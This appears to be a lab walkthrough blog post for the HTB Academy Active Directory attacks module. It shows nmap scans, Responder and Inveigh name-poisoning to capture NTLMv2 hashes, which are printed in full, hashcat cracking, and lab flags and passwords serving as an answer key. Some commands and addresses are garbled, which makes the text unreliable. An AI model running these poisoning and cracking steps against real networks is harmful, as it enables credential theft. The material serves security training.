Welcome to **Part 12** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Active Directory Enumeration & Attacks** (Tier II • Medium • Offensive). We break down the underlying mechanics of Active Directory architecture, LDAP enumeration, BloodHound graph analysis, Kerberoasting, AS-REP Roasting, DCSync, and domain privilege escalation, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-11-attacking-common-applications/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 11: Attacking Common Applications (Tomcat, Jenkins, Splunk)</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 12 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-13-attacking-enterprise-networks/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 13: Attacking Enterprise Networks & Multi-Homed Pivoting</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Active Directory Enumeration & Attacks` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/143](https://academy.hackthebox.com/module/143) |
| **Curriculum Tier & Difficulty** | `Tier II` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 12 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **Domain Discovery**: Queries Active Directory domain objects, trusts, group policies, and access control lists (ACLs) using PowerView and BloodHound.
* **Kerberos Ticket Attacks**: Weaponizes Kerberoasting against service accounts with Service Principal Names (SPNs) and AS-REP Roasting against pre-authentication disabled accounts.
* **Credential Dumping**: Extracts NTDS.dit hashes via DCSync (`secretsdump.py`), dumps LSASS memory, and parses SAM registry hives.
* **ACL & Permission Abuse**: Hijacks user accounts and security groups through `GenericAll`, `WriteDacl`, and `ForceChangePassword` rights.
* **Domain Dominance**: Establishes persistence and complete forest compromise through Golden and Silver Ticket forge attacks.

## Executive Summary & Assessment Scope

Active Directory (AD) is the identity and access management backbone of enterprise corporate networks. Mastering AD enumeration and attack paths is the cornerstone of advanced penetration testing and red teaming.

This extensive module provides a deep technical exploration of Active Directory exploitation. We map domain attack paths using BloodHound, extract and crack Kerberos service tickets, abuse misconfigured object permissions, execute DCSync replication attacks, and achieve full Domain Admin dominance, accompanied by verified terminal outputs and flag solutions.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Active Directory Enumeration & Attacks

> **Lab Question (Page 1)**: While looking at inlanefreights public records; A flag can be seen. Find the flag and submit it. ( format == HTB{******} )
>
> **Flag / Answer**: `HTB{5Fz6UPNUFFzqjdg0AzXyxCjMZ}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

```bash
ssh <username>@<target-IP>
```
and then we will be requested to enter the password.
For windows – we will use xfreerdp with the command:
```bash
xfreerdp /v:<Target IP> /u:<username> /p:<password>
```
/dynamic-resolution

Throughout the module, those steps will be referred as 'login to the
Linux/Windows target machine'.
*all Windows powershell commands assume cd of 'C:\tools' unless specified
otherwise *

Initial Enumeration
External Recon and Enumeration Principles:
Question: While looking at inlanefreights public records; A flag can be seen.
```bash
Find the flag and submit it. ( format == HTB{******} )
```
Answer:  HTB{5Fz6UPNUFFzqjdg0AzXyxCjMZ}
Method: we will search on google the string:
'intext:"HTB{" inurl:inlanefreight.com' – we are told the string is in format of
'HTB{**}', by necessarily the substring 'intext:"HTB{' will appear.


### Lets search

So we search that string within the url 'inlanefreight.com' (its google patterned
search).
Lets search:

After several results we see this:

Where the flag is visible to us in the preview of the website.
We can take that already, but in this module guide we will go into the website
anyway, enter the link and scroll down.
Somewhere within the page – we see this:
.
*note – be careful of misdirection, at first I searched for 'HTB{*****}' -  and
this result was here. But that was not the answer. *


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


*_Figure 2.3 — Lab execution and output verification (Page 2)_*


### Initial Enumeration of the Domain

> **Lab Question (Page 3)**: From your scans, what is the "commonName" of host 172.16.5.5 ?
>
> **Flag / Answer**: `ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets rehearse what is Common name – common name is an attribute
of Active directory object that represents the object, it parts of the attribute
'DN'- distinguished name which purpose is to make the object distinguishable
from other objects.
First, we login the target Linux machine.
Now, to find the common name on '172.16.5.5' – we will perform aggressive
NMAP:
```bash
nmap -A 172.16.5.5
```
the '-A' flag performs deeper investigation of open ports, one of which at
certain cases is service enumeration.
Now lets observe on the scan results:

We can find the common name on the LDAP (lightweight directory access
protocol). We can find further evidences here:

and here:


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


### First command

> **Lab Question (Page 4)**: What host is running "Microsoft SQL Server 2019 15.00.2000.00"? (IP address, not Resolved name)
>
> **Flag / Answer**: `172.16.5.130`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will run the following sequence of commands:
First command:
touch alive_hosts.txt
the 'touch' command creates a file of 'alive_hosts.txt'.
The next command would be 'fping' network scanning tool, for that we need
the network address and subnet mask, we will obtain that with
route -n


There are several interfaces running, but for our purpose the correct interface
is 'ens224':

We can observe that the network address is '17216.4.0' and the netmask is
'225:225:224:0'.
Now that we have that, we can run the 'fping':


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


### We will use the command

#### Technical Methodology & Exploit Execution:

```bash
nmap -p 1433 -sV -iL alive_hosts.txt | | grep -B 4
```
"Microsoft SQL Server 2019"
the commands performs nmap scan on SQL port 1433 with enhanced service
inspection for details and version enabled (-sV), takes its input hosts from
alive_host.txt, and filter the results for the 4 lines relevant to the string
"Microsoft SQL Server 2019":


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


*_Figure 5.3 — Lab execution and output verification (Page 5)_*


### LLMNR/NBT-NS Poisoning - from Linux

> **Lab Question (Page 6)**: Run Responder and obtain a hash for a user account that starts with the letter b. Submit the account name as your answer.
>
> **Flag / Answer**: `backupagent`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use the tool 'responder' – first, we ssh login to the linux target
machine.
And that is active – we confirm the active directory's interface is 'ens224' via
the same method as the previous question, and when is that confirm – we run
the command:
```bash
sudo responder -I ens224
```
first lets explain what is responder: responder is a tool that sends fake response
packets of LLMNR or NBT-NS protocols (which serve as more localized – smaller
scale) DNS protocols.
The fake packets purpose is to make victims hosts on the network thinking we
are the requested host, and thus deliver us the sensitive data.
Now that's explained we run the tool:

Request packets is being captured and fake response are being sent:


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


### After a while

> **Lab Question (Page 7)**: [SMB] NTLMv2-SSP Hash: backupagent::INLANEFREIGHT:8303f5af0f4a7186:D227F8678FD5415C BD0351E4B60D8788:0101000000000000005797B8CDC7DA018AC49B9E96B 7E4270000000002000800420054004B00440001001E00570049004E002D0 044004D00500051005400330051004600340052004100040034005700490 04E002D0044004D005000510054003300510046003400520041002E00420 054004B0044002E004C004F00430041004C0003001400420054004B00440 02E004C004F00430041004C0005001400420054004B0044002E004C004F0 0430041004C0007000800005797B8CDC7DA0106000400020000000800300 0300000000000000000000000003000000E7AC24EAEDFD6B815AACF9223A 6A5F985235F3D4C8538B5A6B6CF1941DBA52F0A001000000000000000000 000000000000000000900220063006900660073002F003100370032002E0 0310036002E0035002E003200320035000000000000000000
>
> **Flag / Answer**: `Completed / Verified`
{: .prompt-info }


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


### 'hash_backupagent' (along with the username and domain)

> **Lab Question (Page 8)**: Crack the hash for the previous account and submit the cleartext password as your answer.
>
> **Flag / Answer**: `h1backup55`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

on our PWNBOX machine we will download rockyou.txt wordlist from
here.
And put its content in a file called 'rockyou.txt'
We will also put the hash found in last question in a file called
'hash_backupagent' (along with the username and domain):

And both files are ready – we run hashcat password cracking tool with the
command:
```bash
hashcat -m 5600 hash_backuagent.txt rockyou.txt
```
after some metadata presentation, it will crack the hash and display the result:


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


### 'wley' hash

> **Lab Question (Page 9)**: Run Responder and obtain an NTLMv2 hash for the user wley. Crack the hash using Hashcat and submit the user's password as your answer.
>
> **Flag / Answer**: `transporter@4`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

on the same listener session of the previous questions, we captured
'wley' hash:

[SMB] NTLMv2-SSP Hash:
wley::INLANEFREIGHT:c2d722bda1e5b28e:EFAC8F26E10904934D809F7
B9F8B3489:0101000000000000005797B8CDC7DA01BA68E87282BC82C100
00000002000800420054004B00440001001E00570049004E002D0044004D
0050005100540033005100460034005200410004003400570049004E002D
0044004D005000510054003300510046003400520041002E00420054004B
0044002E004C004F00430041004C0003001400420054004B0044002E004C
004F00430041004C0005001400420054004B0044002E004C004F00430041
004C0007000800005797B8CDC7DA01060004000200000008003000300000
000000000000000000003000000E7AC24EAEDFD6B815AACF9223A6A5F985
235F3D4C8538B5A6B6CF1941DBA52F0A0010000000000000000000000000
00000000000900220063006900660073002F003100370032002E00310036
002E0035002E003200320035000000000000000000
Now we perform the same procedure we use to crack 'backupagent' password
(take wley hash, put it in hash_wley.txt file, run
```bash
hashcat -m 5600 hash_wley.txt rockyou.txt
```
) – and in the same manner we get this:


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


### LLMNR/NBT-NS Poisoning - from Windows

> **Lab Question (Page 10)**: Run Inveigh and capture the NTLMv2 hash for the svc_qualys account. Crack and submit the cleartext password as the answer.
>
> **Flag / Answer**: `security#1`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, we login to the target windows machine with the provided
credentials.
Then, we will need to use Inveigh – which is effectively the PowerShell version
of 'Listener' from the previous question.
We open PowerShell on ADMINISTRATOR, and run the sequence of commands:

```bash
cd C:\Tools\
```

```bash
Import-Module .\Inveigh.ps1
```

Invoke-Inveigh -NBNS Y -LLMNR Y -HTTP Y -HTTPS Y -SMB Y -
ConsoleOutput Y -FileOutput Y
*the first command assumes that Inveigh is located within Tools folders *
As soon as Inveigh is invoked – we get a stream on network traffic:

After some time, we will receive the following notification:

At this point – we will stop the execution with the command:
Stop-Inveigh
*ctrl+c alone does NOT stops the execution of the program, only the display on
the console*


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


### the windows instance)

The program captured 'svc_qualys' hash, and stored it in Inveigh-NTLMv2.txt:

svc_qualys::INLANEFREIGHT:875DBED6FA2105CD:E77DD9A52B6D70BEFDA72BAD5
17E41FA:01010000000000003F559B2517C8DA0121431A2CF753F3F8000000000200
1A0049004E004C0041004E004500460052004500490047004800540001001E004100
43004100440045004D0059002D00450041002D004D00530030003100040026004900
4E004C0041004E00450046005200450049004700480054002E004C004F0043004100
4C0003004600410043004100440045004D0059002D00450041002D004D0053003000
31002E0049004E004C0041004E00450046005200450049004700480054002E004C00
4F00430041004C000500260049004E004C0041004E00450046005200450049004700
480054002E004C004F00430041004C00070008003F559B2517C8DA01060004000200
00000800300030000000000000000000000000300000CF207BCCF3719771462EB509
D496A34C425613648F16E07F240556DE891A4D810A00100000000000000000000000
0000000000000900200063006900660073002F003100370032002E00310036002E00
35002E00320035000000000000000000

now we need to crack the hash – we will use the same tool and method used
to crack the hash obtained from 'listener' on the Linux equivalent of the
question (on pwnbox - paste the hash to a file,download rockyou.txt, run
hashcat, get the cracked plaintext password. The procedure was presented in
detail in the Linux LLMNR/NBT-NS Poisoning section, I will not repeat them on
the windows instance):
```bash
hashcat -m 5600 hash_svc_qualys.txt rockyou.txt
```


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


### Enumerating & Retrieving Password Policies

> **Lab Question (Page 12)**: What is the default Minimum password length when a new domain is created? (One number)
>
> **Flag / Answer**: `7`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Question: What is the minPwdLength set to in the INLANEFREIGHT.LOCAL
